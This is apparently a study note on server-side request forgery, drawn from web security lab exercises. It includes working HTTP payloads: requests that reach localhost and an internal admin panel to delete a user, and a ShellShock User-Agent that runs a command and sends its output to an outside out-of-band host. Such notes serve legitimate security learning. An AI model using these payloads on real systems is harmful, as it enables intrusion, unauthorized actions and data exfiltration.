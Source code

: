 Server-side request forgery (also known as SSRF) is a web security vulnerability that allows an attacker to induce the server-side application to make requests to an unintended location.

In a typical SSRF attack, the attacker might cause the server to make a connection to internal-only services within the organization's infrastructure. In other cases, they may be able to force the server to connect to arbitrary external systems, potentially leaking sensitive data such as authorization credentials.

## SSRF attacks against the server itself

In an SSRF attack against the server itself, the attacker induces the application to make an HTTP request back to the server that is hosting the application, via its loopback network interface.

Main point of intrests:
- Pages accessible only from localhost (like administrative panels)
- Services on other ports

>[!example]
>Original request:
>```http
>POST /product/stock HTTP/1.0
>Content-Type: application/x-www-form-urlencoded
>Content-Length: 118
>
>stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1>
>```
>
> Malicious request:
> ```http
> POST /product/stock HTTP/1.0
>Content-Type: application/x-www-form-urlencoded
>Content-Length: 118
>
>stockApi=http://localhost/admin
>```

## SSRF attacks against other servers

SSRF against other servers often arises when the application server is able to interact with other back-end systems that are not directly reachable by users. 
These systems often have non-routable private IP addresses and often have a weaker security posture. In many cases, they contain sensitive functionality often accessibile  without authentication.

>[!example]
>Request against an internal, non-routed, administrative panel:
>
>```http
>POST /product/stock HTTP/1.1
Host: 0ae400fb040404ddc56df732005a00ae.web-security-academy.net
Cookie: session=jQGNv9ozVPtY2SdltFQVanHUn7mzqQsk
Content-Length: 73
Connection: close
>
>stockApi=http://192.168.0.100:8080/admin/delete?username=carlos&storeId=1
>```

## Blind SSRF

Blind SSRF vulnerabilities arise when an application can be induced to issue a back-end HTTP request to a supplied URL, but the response from the back-end request is not returned in the application's front-end response.

Blind SSRF can be found using [OAST](https://portswigger.net/burp/application-security-testing/oast) techniques.

>[!note]
>It is common when testing for SSRF vulnerabilities to observe a DNS look-up for the supplied Collaborator domain, but no subsequent HTTP request. This typically happens because the application attempted to make an HTTP request to the domain, which caused the initial DNS lookup, but the actual HTTP request was blocked by network-level filtering. It is relatively common for infrastructure to allow outbound DNS traffic, since this is needed for so many purposes, but block HTTP connections to unexpected destinations.

Identifying a blind SSRF vulnerability that can trigger out-of-band HTTP requests doesn't in itself provide a route to exploitability. However, it can still be leveraged to probe for other vulnerabilities on the server itself or on other back-end systems. You can blindly sweep the internal IP address space, sending payloads designed to detect well-known vulnerabilities. If those payloads also employ blind out-of-band techniques, then you might uncover a critical vulnerability on an unpatched internal server.

Another avenue for exploiting blind SSRF vulnerabilities is to induce the application to connect to a system under the attacker's control, and return malicious responses to the HTTP client that makes the connection. If you can exploit a serious client-side vulnerability in the server's HTTP implementation, you might be able to achieve remote code execution within the application infrastructure. [^1]

[^1]: https://portswigger.net/research/cracking-the-lens-targeting-https-hidden-attack-surface#remoteclient

>[!example] Exploit a blind SSRF to exfiltrate usernames from targets vulnerable to ShellShock
>```http
GET /product?productId=1 HTTP/1.1
Host: 0a240091041ee9e2c2e8e317006a00a4.web-security-academy.net
Cookie: session=N0jjt4vE0NGhsIgr52oW9MFtvlSuBLv2
Upgrade-Insecure-Requests: 1
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).cp5wj8xh4c0qaefd19tzdw6dh4nvbuzj.oastify.com
Referer: http://192.168.0.§0§:8080/
Connection: close
>```

## Other attack surface

- Partial URLs in requests (eg. only a hostname or part of a URL path into request parameters)
- URLs within data formats (eg. XML leading to SSRF using [XML External Entity Injection (XXE Injection)](XML%20External%20Entity%20Injection%20(XXE%20Injection).md))
- Referer header or other headers ([Host header SSRF attacks (aka Routing-based SSRF)](Host%20Header%20attacks.md#Host%20header%20SSRF%20attacks%20(aka%20Routing-based%20SSRF)))
- [SSRF registering an arbitrary OpenID Connect client application](OpenID%20Connect%20attacks.md#SSRF%20registering%20an%20arbitrary%20client%20application)

## SSRF evasion and bypasses

- [Evading Restrictions](Evading%20Restrictions.md)
- [A New Era of SSRF](https://portswigger.net/research/top-10-web-hacking-techniques-of-2017#1)

## External resources

- [HackTrick (SSRF)](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)
- [Targeting auxiliary systems](https://portswigger.net/research/cracking-the-lens-targeting-https-hidden-attack-surface#aux)